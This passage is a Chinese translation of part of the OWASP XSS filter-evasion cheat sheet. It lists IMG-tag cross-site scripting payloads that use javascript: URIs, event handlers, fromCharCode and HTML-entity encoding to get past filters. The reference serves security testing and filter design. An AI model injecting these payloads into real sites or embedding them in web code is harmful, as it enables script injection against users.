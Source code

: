 如果不允许任何类型的引号，您可以`eval()`在`fromCharCode`JavaScript 中创建您需要的任何 XSS 向量：

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

### 默认 SRC 标记以获取过去检查 SRC 域的过滤器[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#default-src-tag-to-get-past-filters-that-check-src-domain)

这将绕过大多数 SRC 域过滤器。在事件方法中插入 JavaScript 也将适用于使用 Form、Iframe、Input、Embed 等元素的任何 HTML 标签类型注入。它还将允许替换标签类型的任何相关事件`onblur`，`onclick`如此处列出的许多注射的变化。由大卫克罗斯提交。

由 Abdullah Hussam (@Abdulahhusam) 编辑。

```
<IMG SRC=# onmouseover="alert('xxs')">
```

### 默认 SRC 标签留空[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#default-src-tag-by-leaving-it-empty)

```
<IMG SRC= onmouseover="alert('xxs')">
```

### 完全保留默认 SRC 标记[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#default-src-tag-by-leaving-it-out-entirely)

```
<IMG onmouseover="alert('xxs')">
```

### 错误警报[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#on-error-alert)

```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

### IMG onerror 和 JavaScript 警报编码[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-onerror-and-javascript-alert-encode)

<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

### 十进制 HTML 字符引用[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#decimal-html-character-references)

所有在标签内使用 javascript: 指令的 XSS 示例`<IMG`在 Gecko 渲染引擎模式下的 Firefox 或 Netscape 8.1+ 中都不起作用）。

```
<IMG SRC=javascript:alert('XSS')>
```
